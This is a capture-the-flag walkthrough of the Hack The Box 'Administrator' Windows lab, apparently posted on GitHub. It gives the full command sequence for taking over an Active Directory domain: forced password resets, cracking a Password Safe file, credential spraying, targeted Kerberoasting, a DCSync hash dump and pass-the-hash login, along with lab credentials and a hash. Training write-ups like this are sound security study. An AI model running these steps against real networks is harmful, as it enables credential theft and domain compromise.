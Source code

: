# Administrator HTB Walkthrough

[![Hack The Box](https://img.shields.io/badge/HackTheBox-Administrator-orange?logo=hackthebox)](https://app.hackthebox.com/machines/634)
[![Difficulty: Easy](https://img.shields.io/badge/Difficulty-Medium-orange)](https://github.com/subhash00/HTB_Labs/)
[![Platform: Windows](https://img.shields.io/badge/Platform-Windows-green)](https://github.com/subhash00/HTB_Labs/)
[![Topic: Active Directory](https://img.shields.io/badge/Topic-Active%20Directory-yellowgreen)](https://en.wikipedia.org/wiki/Active_Directory)

---

## Overview

This is a complete walkthrough of the **Administrator** box from Hack The Box. The guide covers initial enumeration, pivoting through users, abusing Active Directory weaknesses, password extraction, and privilege escalation to full domain compromise. All commands used during the lab are included, with step-by-step explanations, ensuring replicability and clarity for readers interested in Active Directory exploitation techniques.

---

## Table of Contents

- [Enumeration](#enumeration)
  - [Nmap Scan](#nmap-scan)
  - [Host File Setup](#host-file-setup)
- [BloodHound AD Recon](#bloodhound-ad-recon)
  - [BloodHound Data Collection](#bloodhound-data-collection)
- [Initial Access (Evil-WinRM)](#initial-access-evil-winrm)
- [Privilege Escalation & Password Abuses](#privilege-escalation--password-abuses)
  - [Password Reset & Lateral Movement](#password-reset--lateral-movement)
  - [Check Group Membership](#check-group-membership)
- [FTP & Password Safe Attack](#ftp--password-safe-attack)
  - [FTP Download & Extraction](#ftp-download--extraction)
  - [Password Safe File Cracking](#password-safe-file-cracking)
- [Credential Spraying and Further Access](#credential-spraying-and-further-access)
- [Kerberoasting](#kerberoasting)
  - [Clock Sync](#clock-sync)
  - [Targeted Kerberoasting](#targeted-kerberoasting)
  - [Kerberos Ticket Crack](#kerberos-ticket-crack)
- [Domain Compromise (DCSync & PTH)](#domain-compromise-dcsync--pth)
- [Stepwise PoC](#stepwise-poc)
- [Tools Used](#tools-used)
- [Technologies Used](#technologies-used)

---

## Enumeration

### Nmap Scan
```
ports=$(nmap -p- --min-rate=1000 -T4 10.129.150.113 | grep '^[0-9]' | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sV -sC 10.129.150.113
```
Scans all ports quickly on the target machine, enumerates services on discovered ports.

### Host File Setup

`echo "10.129.150.113 administrator.htb" | sudo tee -a /etc/hosts`
Adds the host to `/etc/hosts` for local domain resolution.

---

## BloodHound AD Recon

### BloodHound Data Collection

`bloodhound-python -d administrator.htb -u olivia -p 'ichliebedich' -ns 10.129.150.113 -c All --zip`
Performs an extensive Active Directory data collection with BloodHound using initial user credentials.

---

## Initial Access (Evil-WinRM)

`evil-winrm -i 10.129.150.113 -u olivia -p 'ichliebedich'`

Connects to the target via WinRM as Olivia.

---

## Privilege Escalation & Password Abuses

### Password Reset & Lateral Movement

```
net user michael test12345 /domain
evil-winrm -i 10.129.150.113 -u michael -p 'test12345'
Set-DomainUserPassword -Identity benjamin -AccountPassword (ConvertTo-SecureString "test123456" -AsPlainText -Force) -Credential $YourCredential
```
- Resets Michael’s password via net user (requires control over Michael via ACLs/group membership).
- Uses Michael’s session/rights to reset Benjamin’s domain password using PowerView.

### Check Group Membership

`net user benjamin | Select-String -Pattern "Group"`
Lists group memberships for Benjamin.

---

## FTP & Password Safe Attack

### FTP Download & Extraction

```
ftp benjamin@10.129.150.113
ftp> dir
ftp> get Backup.psafe3
file Backup.psafe3
```
- Connects to the FTP service as Benjamin.
- Lists and downloads the `Backup.psafe3` file.
- Checks the file type of the download.

### Password Safe File Cracking

```
hashcat -a 0 -m 5200 Backup.psafe3 /usr/share/wordlists/rockyou.txt
pwsafe
```
- Cracks the password safe file with Hashcat.
- Uses `pwsafe` on Linux to open and extract credentials with the cracked password (in walkthrough: `tekieromucho`).

---

## Credential Spraying and Further Access

```
netexec smb 10.129.150.113 -u user.txt -p pass.txt      OR
crackmapexec smb 10.129.150.113 -u user.txt -p pass.txt
evil-winrm -i 10.129.150.113 -u emily -p UXLCI5iETUsIBoFVTj8yQFKoHjXmb
```
- Uses lists of usernames/passwords from the password safe to spray credentials over SMB.
- Authenticates as Emily after finding valid credentials.

---

## Kerberoasting

### Clock Sync

`sudo ntpdate 10.129.150.113`
Synchronizes local system time with the domain controller to avoid Kerberos skew errors.

### Targeted Kerberoasting

`python3 targetedKerberoast.py --dc-ip 10.129.150.113 -d administrator.htb -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' -U ethan.txt`
Performs a targeted Kerberoast attack on Ethan using Emily’s session. The `ethan.txt` file should contain the username `ethan`.

### Kerberos Ticket Crack

`hashcat -a 0 -m 13100 ethan.hash /usr/share/wordlists/rockyou.txt`
Cracks the extracted Kerberos TGS hash to recover Ethan’s clear-text password (in walkthrough: `limpbizkit`).

---

## Domain Compromise (DCSync & PTH)

```
impacket-secretsdump -just-dc ADMINISTRATOR.HTB/ethan@10.129.150.113
evil-winrm -i 10.129.150.113 -u Administrator -H'3dc553ce4b9fd20bd016e098d2d2fd2e'
```
- Performs a DCSync attack with Ethan’s credentials to dump domain hashes, including Administrator.
- Uses Pass-the-Hash to log in as Administrator and gain full domain access.

---

## Stepwise PoC

<details>
<summary>💻<strong>(click to expand)</strong> </summary>
  <img width="1571" height="846" alt="28" src="https://github.com/user-attachments/assets/972a9958-ac87-4d3a-ac7e-d662989b954c" />
<img width="904" height="93" alt="27" src="https://github.com/user-attachments/assets/93d75c81-e2c9-45e9-ac0f-3724cc4e65f9" />
<img width="1896" height="687" alt="26" src="https://github.com/user-attachments/assets/00f66ee9-2800-461c-8b88-83226652d36a" />
<img width="1920" height="896" alt="25" src="https://github.com/user-attachments/assets/d5be9e92-1056-4005-8928-0342d90e9cea" />
<img width="1920" height="900" alt="24" src="https://github.com/user-attachments/assets/3d74557f-0655-4041-88df-3c0c5f71a7e5" />
<img width="1787" height="905" alt="23" src="https://github.com/user-attachments/assets/264cce50-d2a5-4bad-a9b8-c50efded69d6" />
<img width="1562" height="417" alt="22" src="https://github.com/user-attachments/assets/1fcdf0e5-ea8b-4a3b-a8ed-d15288340a8b" />
<img width="959" height="475" alt="21" src="https://github.com/user-attachments/assets/ad1ab480-f665-49e9-90b5-5c064fa8abc5" />
<img width="1805" height="779" alt="20" src="https://github.com/user-attachments/assets/7bbae0c6-69c5-4670-a323-66fd31165cb5" />
<img width="1889" height="844" alt="19" src="https://github.com/user-attachments/assets/99932737-9df8-468a-8000-c28d069dfc92" />
<img width="1559" height="181" alt="18" src="https://github.com/user-attachments/assets/61220322-1a34-40c4-93bb-c9a5c75277d4" />
<img width="1155" height="164" alt="17" src="https://github.com/user-attachments/assets/95634068-31bb-4d43-8851-5e951b8de721" />
<img width="1894" height="702" alt="16" src="https://github.com/user-attachments/assets/bab1ac97-ebde-4455-9efe-295b2d08e2f7" />
<img width="1048" height="299" alt="15" src="https://github.com/user-attachments/assets/a4c12df8-dff7-47a2-a9ac-986566b064a5" />
<img width="949" height="787" alt="14" src="https://github.com/user-attachments/assets/0ca4057e-a7b4-48e4-9673-8c0ae7e77a44" />
<img width="574" height="463" alt="13" src="https://github.com/user-attachments/assets/62bb0b0e-f9bc-473d-975f-2cb88f0ca004" />
<img width="1765" height="823" alt="12" src="https://github.com/user-attachments/assets/2450eb94-f142-487b-ba3f-8eaa9804efe7" />
<img width="1895" height="715" alt="11" src="https://github.com/user-attachments/assets/d824a2d1-5526-44bf-9c79-02d724799d3a" />
<img width="1628" height="410" alt="10" src="https://github.com/user-attachments/assets/4da678c9-f642-4d5f-82c2-ead9b0923d94" />
<img width="1826" height="825" alt="9" src="https://github.com/user-attachments/assets/a194d4b2-2e82-4ebd-890d-7b75fd8d985e" />
<img width="725" height="589" alt="8" src="https://github.com/user-attachments/assets/8f7a2ff6-6cc7-4cdc-8621-19994bad2cc9" />
<img width="966" height="191" alt="7" src="https://github.com/user-attachments/assets/c129b332-e31f-4fba-aad2-6271c392ed19" />
<img width="974" height="359" alt="6" src="https://github.com/user-attachments/assets/ac358c3d-ea9f-4eae-a126-c463a439615a" />
<img width="970" height="719" alt="5" src="https://github.com/user-attachments/assets/f2952da7-5178-481e-acb2-3a8f169acb91" />
<img width="1844" height="698" alt="4" src="https://github.com/user-attachments/assets/62bd1eb6-cc37-4a93-8944-15f29dc3585c" />
<img width="714" height="328" alt="3" src="https://github.com/user-attachments/assets/b8cb48ca-1cf8-4e39-aff6-d6af00702ef0" />
<img width="1421" height="850" alt="2" src="https://github.com/user-attachments/assets/cc2e0427-bd09-445c-a5c9-f3b30b47289d" />
<img width="1613" height="413" alt="1" src="https://github.com/user-attachments/assets/c77fc437-f8c9-4167-8fa4-f9c4112cbd55" />

</details>

---

## Tools Used

- **Nmap** — Network enumeration and port scanning
- **BloodHound** — Active Directory privilege and relationship mapping
- **bloodhound-python** — BloodHound data collector for AD
- **Evil-WinRM** — Remote PowerShell administration for Windows servers
- **PowerView** — PowerShell toolkit for AD enumeration and abuse
- **FTP Client** — File transfer client used for downloading files from Windows FTP service
- **Hashcat** — Password and hash cracker
- **pwsafe** — Password Safe, a tool to open `.psafe3` password database files (Linux version)
- **netexec / crackmapexec** — Credential spraying and SMB enumeration utilities
- **ntpdate** — Clock synchronization utility to fix Kerberos time skew
- **targetedKerberoast.py** — Script for advanced Kerberoasting attacks against specified AD accounts
- **Impacket’s secretsdump.py** — Dumping AD hashes using DCSync attack
- **net user** — Native Windows user management
- **Select-String** — PowerShell search utility

---

## Technologies Used

- **Active Directory (AD)** — Core Windows authentication and directory service, central to all enumeration, privilege escalation and attacks.
- **Kerberos** — Windows authentication protocol, target for Kerberoasting attacks.
- **NTLM** — Windows hash-based authentication, used in password attacks and pass-the-hash.
- **FTP** — File Transfer Protocol, used for moving files between hosts.
- **Password Safe (.psafe3)** — Secure password database format.
- **LDAP** — Lightweight Directory Access Protocol, often used for direct AD enumeration.
- **Resource-Based Constrained Delegation** — (not directly used in this walkthrough, but related to AD abuse and Kerberos).
- **SMB** — Windows file and printer sharing protocol, often the first target for enumeration.
- **DCSync/Replication** — Mechanism for AD DCs to synchronize data, abused for privilege escalation.

---


